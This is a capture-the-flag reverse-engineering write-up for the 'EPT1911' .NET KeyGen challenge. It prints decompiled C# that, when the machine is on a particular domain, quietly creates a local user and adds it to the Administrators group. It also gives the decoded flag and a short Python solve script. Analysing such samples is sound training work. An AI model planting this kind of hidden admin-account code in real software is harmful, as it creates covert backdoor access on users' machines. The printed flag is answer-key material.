




# EPT1911

<p>
    
</p>

We are given an executable with .Net assembly
```console
loevland@hp-envy:~/ctf/ept/rev/ept1911$ file KeyGen.exe
KeyGen.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
```

Running the file we get an UI where we can input some text, and it will generate a key for us
<p>
    
</p>

Since the executable is .Net we can reverse it with `dnSpy`. We will use the 32-bit version of `dnSpy` since the executable is a PE32 executable.

There are two classes defined in the program: `EPT1911` and `Program`.

The `Program` class contains the following interesting functions:

This function compares our local computer domain with the domain name passed to the function
```cs
public static bool IsMachineInDomain(string domainName){
    bool result;
    try {
        result = string.Equals(Domain.GetComputerDomain().Name, domainName, StringComparison.OrdinalIgnoreCase);
    }
    catch (ActiveDirectoryObjectNotFoundException){
        result = false;
    }
    catch (Exception){
        throw;
    }
    return result;
}
```

This function creates a local user and adds it to the administrators group. Note that the password ends with `!}`, which could be a part of the flag
```cs
public static void CreateLocalUserAndAddToAdminGroup(string user, string pass){
    try{
        using (DirectoryEntry directoryEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer")){
            DirectoryEntry directoryEntry2 = directoryEntry.Children.Add(user, "user");
            directoryEntry2.Invoke("SetPassword", new object[] {
                pass + "!}"
            });
            directoryEntry2.CommitChanges();
            DirectoryEntry directoryEntry3 = directoryEntry.Children.Find("Administrators", "group");
            if (directoryEntry3 != null){
                directoryEntry3.Invoke("Add", new object[] {
                    directoryEntry2.Path
                });
            }
        }
    }
    catch (Exception){
    }
}
```

There is only one interesting function in the `EPT1911` call, and it calls both function from the `Program` class.
The function checks if the local machine domain is `contoso.com`, and if so it adds `42` to the values of `Settings.Default.encpw` and appends it to the string `EPT{`. From looking at the `CreateLocalUserAndAddToAdminGroup` function earlier we know that this is the password created for the local user the program tries to create on our machine.
```cs
private void LegitStuff_Loader(){
    if (Program.IsMachineInDomain("contoso.com")){
        string text = "EPT{";
        foreach (string s in Settings.Default.encpw)
        {
            text += ((char)(int.Parse(s) + 42)).ToString();
        }
        Program.CreateLocalUserAndAddToAdminGroup("EPT", text);
    }
}
```

There are two possibilities here to get the flag:
- Option 1: Find the values of `Settings.Default.encpw` and add `42` to each character/byte to get most of the flag (since `EPT{` is prepended and `!}` appended)
- Option 2: Use breakpoints and step through the program to it decrypt the flag for us


## Option 1: Static Analysis
We can see the value of `Settings.Default.encpw` by clicking it in `dnSpy`, which leads us to the following settings property in the program
```cs
// Token: 0x17000007 RID: 7
// (get) Token: 0x06000013 RID: 19 RVA: 0x00002572 File Offset: 0x00000772
[ApplicationScopedSetting]
[DebuggerNonUserCode]
[DefaultSettingValue("<?xml version=\"1.0\" encoding=\"utf-16\"?>\r\n<ArrayOfString xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\">\r\n  <string>58</string>\r\n  <string>7</string>\r\n  <string>58</string>\r\n  <string>53</string>\r\n  <string>43</string>\r\n  <string>53</string>\r\n  <string>65</string>\r\n  <string>68</string>\r\n  <string>6</string>\r\n  <string>77</string>\r\n  <string>53</string>\r\n  <string>72</string>\r\n  <string>48</string>\r\n  <string>72</string>\r\n  <string>7</string>\r\n  <string>15</string>\r\n  <string>7</string>\r\n  <string>7</string>\r\n  <string>53</string>\r\n  <string>40</string>\r\n  <string>53</string>\r\n  <string>68</string>\r\n  <string>6</string>\r\n  <string>72</string>\r\n  <string>77</string>\r\n  <string>9</string>\r\n  <string>61</string>\r\n  <string>63</string>\r\n  <string>55</string>\r\n  <string>68</string>\r\n  <string>21</string>\r\n</ArrayOfString>")]
public StringCollection encpw{
    get {
        return (StringCollection)this["encpw"];
    }
}
```

If you look closely at the values in the XML body we can see integers stored as characters, which is equvivalent with the encrypted version of the password, which also is the body of the flag.

We copy-paste the XMl into a python script and parse it with the python library `xml.etree.ElementTree`. We already know that we only need to add 42 to each character to get the flag, and we know that `EPT{` is prepended and `!}` is appended as well.

```python
enc_pw = ET.fromstring(xml)

flag = "EPT{"
for char in enc_pw:
    flag += chr(int(char.text)+42)
flag += "!}"
print(flag)
```

The full solve script, with the XML of the encrypted password added, can be found in [decrypt.py](decrypt.py)

```console
loevland@hp-envy:~/ctf/ept/rev/ept1911$ python3 decrypt.py
EPT{d1d_U_kn0w_rZr1911_R_n0rw3gian?!}
```


## Option 2: Dynamic Analysis

Since the program does the decryption for us if our computer has the domain name `contoso.com`, we can set a breakpoint at this if-check and change the return value of `IsMachineInDomain` to execute this decryption step. We can attach a debugger to the program with `dnSpy`, with breakpoints set at the following two lines:

Inside the `IsMachineInDomain` function, so we can pass the if-check
```cs
return result;
```

and inside `LegitStuff_Loader` before the user is created, but after the flag is decrypted
```cs
Program.CreateLocalUserAndAddToAdminGroup("EPT", text);
```

We run the program with the debugger attached. When we hit the first breakpoint we see, as expected, that the return value is `false`. However, we can just change it directly to `true` instead

<p>
    
</p>

When we hit the next breakpoint we see most of the flag, remembering that `!}` appended to the flag inside the `CreateLocalUserAndAddToAdminGroup` function

<p>
    
</p>

```
EPT{d1d_U_kn0w_rZr1911_R_n0rw3gian?!}
```